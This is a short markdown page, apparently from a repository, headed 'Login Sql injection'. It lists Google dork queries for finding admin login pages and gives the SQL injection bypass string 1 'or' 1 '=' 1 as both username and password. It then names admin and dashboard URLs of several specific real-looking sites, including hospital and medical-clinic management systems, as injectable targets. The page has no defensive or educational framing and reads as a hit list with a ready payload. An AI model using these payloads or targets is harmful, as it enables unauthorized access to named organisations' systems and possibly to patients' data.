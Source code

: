 # 3)Login Sql injection

![Alt text](image.png)

<hr >

## Domains Link:

https://en.wikipedia.org/wiki/List_of_Internet_top-level_domains

<hr >

## Google Dork:

intitle:"index" of "admin" site:.in

inurl:/admin/index.php I

<hr >

## Access:

user: 1 'or' 1 '=' 1
pass: 1 'or' 1 '=' 1

### Some Website SQL ingection

<hr >

- http://www.hedgewarakola.org/hms/admin/index.php
- http://www.hedgewarakola.org/hms/admin/dashboard.php

<hr >

- https://www.tornos.in/tornos_vendor/admin/index.php
- https://www.tornos.in/tornos_vendor/admin/manage_vendor.php

<hr >

- http://carboncalculator.americanpistachios.org/admin/index.php
- http://carboncalculator.americanpistachios.org/admin/home.php

<hr >

- http://sailorsmedicalclinic.com/hms/admin/index.php
- http://sailorsmedicalclinic.com/hms/admin/dashboard.php

<hr >

- http://www.aletkan.sa/admin/controlpanel.php
- http://www.aletkan.sa/admin/index.php

<hr >
